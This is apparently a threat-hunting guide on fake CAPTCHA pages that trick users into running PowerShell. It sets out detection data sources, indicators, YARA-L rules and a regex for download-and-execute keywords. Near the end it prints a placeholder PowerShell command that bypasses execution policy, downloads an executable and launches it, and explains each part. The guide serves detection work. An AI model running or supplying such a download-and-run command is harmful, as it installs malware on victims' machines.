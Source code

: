 # Hypothesis-Driven Threat Hunt: Fake CAPTCHA Prompting Malicious PowerShell Execution

## Step 1: Define the Hypothesis
Threat actors use fake CAPTCHA challenges to socially engineer victims into copying and executing malicious PowerShell commands, leading to initial access, malware execution, or system compromise. While credential stealers are the most commonly used, a threat actor could use this attack to execute ransomware or remote access trojans. 

## Step 2: Identify Data Sources
To detect such activities, monitor:

- **Web Traffic Logs**: Identify access to suspicious or uncommon CAPTCHA pages.
- **Clipboard Monitoring**: Detect unexpected or unauthorized content copied to the clipboard.
- **PowerShell Execution Logs**: Capture and analyze executed commands.
- **Endpoint Detection and Response (EDR) Logs**: Monitor for malicious activities post-execution.

## Step 3: Indicators of Compromise (IoCs)
- **Clipboard Events**: Sudden copying of PowerShell commands.
- **PowerShell Execution**: Commands initiating downloads or executing scripts from external sources.
- **Network Connections**: Outbound traffic to known malicious domains or IPs.
- **File System Changes**: Creation of unauthorized scripts or executables.

## Step 4: Develop Detection Queries

### (YARA-L)

**Detect Clipboard Copying of PowerShell Commands**:  
Focus on detecting subsequent PowerShell executions that could result from clipboard copying actions. YARA-L can be used to identify patterns indicative of PowerShell commands being executed after clipboard copying events.


### (YARA-L).
```
rule suspicious_powershell_execution {
    meta:
        description = "Detects PowerShell executions that may result from malicious clipboard content"
    events:
        $ps_exec.metadata.event_type = "PROCESS_LAUNCH"
        and $ps_exec.process_name = "powershell.exe"
        and $ps_exec.command_line matches /.*(Invoke-WebRequest|IEX|DownloadString).*/
    condition:
        $ps_exec
}
```
---------------------------------------------------------------------------   
### Identify PowerShell Download and Execution:

```
rule powershell_download_execute {
    meta:
        description = "Detects PowerShell commands that download and execute scripts"
    events:
        $ps_exec.metadata.event_type = "PROCESS_LAUNCH"
        and $ps_exec.process_name = "powershell.exe"
        and $ps_exec.command_line matches /.*(New-Object\s+Net.WebClient|Invoke-WebRequest).*(DownloadString|DownloadFile).*/
    condition:
        $ps_exec
}
```
---------------------------------------------------------------------------   
### Identify PowerShell Download and Execution:
Regex Pattern: Monitor PowerShell Executions with Suspicious Parameters:
```
.*(Invoke-WebRequest|IEX|DownloadString|New-Object\s+Net.WebClient|Invoke-Expression).*(http|https|file|ftp).*
``` 
### Explanation:
- PowerShell commands like Invoke-WebRequest and IEX are commonly used in malicious scripts to download and execute payloads.
- This regex checks for URLs (http, https, file, ftp) in the command line to spot suspicious downloads.

---------------------------------------------------------------------------   
### Example of Powershell command <THIS DOES NOTHING>:

```powershell
powershell -ExecutionPolicy Bypass -Noprofile -Command "invoke-Webrequest -URL 'http here' -Outfile 'C:\Users\Public\malware.exe'; Start-Process 'C\Users\Public\malware.exe'

```

### Full Command Breakdown:
- ```ExecutionPolicy Bypass:``` Temporarily bypasses the PowerShell script execution policy to allow the script to run without restriction.
- ```NoProfile:``` Prevents loading of the user profile, which speeds up the execution and avoids potential conflicts.
- ```Invoke-WebRequest:``` Downloads the payload (payload.exe) from the provided URL.
- ```Start-Process:``` Runs the downloaded malware.exe file.
